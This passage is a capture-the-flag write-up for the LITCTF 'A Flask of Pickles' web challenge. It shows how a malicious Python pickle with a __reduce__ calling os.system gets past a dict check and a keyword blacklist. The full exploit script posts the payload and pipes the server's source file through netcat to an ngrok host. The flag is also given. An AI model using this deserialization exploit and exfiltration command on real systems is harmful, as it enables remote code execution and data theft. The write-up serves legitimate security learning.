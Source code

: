 Bypassing the above limitations was not that complicated.

First, to bypass the dictionary check, we can assign the object of `RCE` class, as a value in the dictionary. 
Doing this way would make our input a valid dict, meanwhile holding the Exploit pickle.

```python
class R():                             # used R as class name to reduce payload size
	def __reduce__(self):
		cmd = 'ls'
		return os.system, (command,)

obj = {'name': R(), 'bio': ''}
pic = pickle.dumps(obj)
enc = base64.b64encode(pic)
```
> We need not to bypass `os.`. Because the pickle contains `os` and `system` as separate strings so the exploit works perfectly.
> I guess it was the author's mistake. He should have used `os` instead of `os.` in blacklist.

So, finally i pulled up a ngrok server to listen for reverse connections in my local port. 
As the flag is stored in `flaskofpickles.py`, I used `netcat` to make a reverse connection to deliver the file to my pc.

#### Exploit script
```python
import pickle, os, pickletools, requests, base64

url = "https://a-flask-of-pickles.litctf.live"
# url = "http://0.0.0.0:1337"

rshell = '''cat flaskofpickles.py | nc 2.tcp.ngrok.io 10656''' # replace ngrok domain


class R():
	def __reduce__(self):
		cmd = 'ls'
		return os.system, (rshell,)

obj = {'name': R(), 'bio': ''}	

pic = pickle.dumps(obj)
enc = base64.b64encode(pic)

pickletools.dis(pic)

res = requests.post(url+'/new', data=enc)

print(res.text)
```
#### Flag
> flag{my_p1ckl35_p0k3d_a_h0l3_in_my_fl4sk}
